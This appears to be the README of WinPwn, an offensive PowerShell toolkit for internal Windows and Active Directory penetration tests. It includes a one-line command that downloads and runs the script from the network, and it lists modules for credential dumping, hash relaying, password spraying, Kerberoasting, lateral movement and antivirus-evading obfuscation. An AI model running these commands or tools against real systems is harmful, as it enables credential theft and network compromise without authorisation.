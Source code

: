 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn_v0.7.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')`

Functions available after Import:
1. #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
2. #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
3. #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
4. #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
5. #### `localreconmodules` -> Collects infosec relevant system Information, Executes passhunt, Get-Computerdetails and Just another Windows Privilege escalation script + Winspect
6. #### `JAWS` -> Just another Windows Privilege Escalation script
7. #### `domainreconmodules` -> 
  i. ### Powerview function output gets stored on disk for review. 
  ii. ### A search for AD-Passwords in description fields is done. 
  iii. ### Unconstrained delegation systems/users are enumerated. 
  iv. ### SQL Server discovery and Auditing functions (default credentials, passwords in the database and more).
  v. ### MS-RPRN Check for Domaincontrollers
  vi. ### An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
8. #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
9. #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
10. #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
11. #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
12. #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
13. #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
14. #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15. #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
16. #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
17. #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.


The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
